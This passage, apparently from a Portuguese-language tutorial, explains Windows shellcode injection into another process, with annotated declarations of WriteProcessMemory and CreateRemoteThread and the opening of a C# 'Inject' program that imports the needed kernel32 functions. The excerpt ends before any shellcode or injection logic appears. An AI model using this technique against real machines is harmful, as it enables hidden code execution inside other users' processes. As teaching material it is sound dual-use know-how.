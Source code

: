 ```c
	// O valor que será usado é o retorno da função "OpenProcess"
	HANDLE hProcess,
	// O valor que será usado é o retorno da função "VirtualAllocEx"
	LPVOID lpBaseAddress,
	// O buffer contendo o shellcode
	LPCVOID lpBuffer,
	// O tamanho do shellcode
	SIZE_T nSize,
	// Um ponteiro para receber quanto de espaço foi escrito durante a função
	SIZE_T *lpNumberOfBytesWritten
);

// Função para criar um thread utilizando o espaço de memória que foi alocado como endereço base
HANDLE CreateRemoteThread(
	// O valor que será usado é o retorno da função "OpenProcess"
	HANDLE hProcess,
	// Atributos para a nova thread criada, será utilizado 0 para aceitar os valores padrões
	LPSECURITY_ATTRIBUTES lpThreadAttributes,
	// Atributos para o tamanho da pilha, será utilizado 0 para aceitar os valores padrões
	SIZE_T dwStackSize,
	// O valor que será usado é o retorno da função "VirtualAllocEx"
	LPTHREAD_START_ROUTINE lpStartAddress,
	// Um ponteiro que receber os parâmtros que serão passados para a função
	// como não tem nenhum parâmetro, esse argumento será 0
	LPVOID lpParameter,
	DWORD dwCreationFlags,
	// Ponteiro que recebe o PID da thread criada, como isso não tem importância agora, será passado 0
	LPDWORD lpThreadId
);
```

## Injeção do shellcode em outro processo

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;

namespace Inject
{
    class Program
    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);


```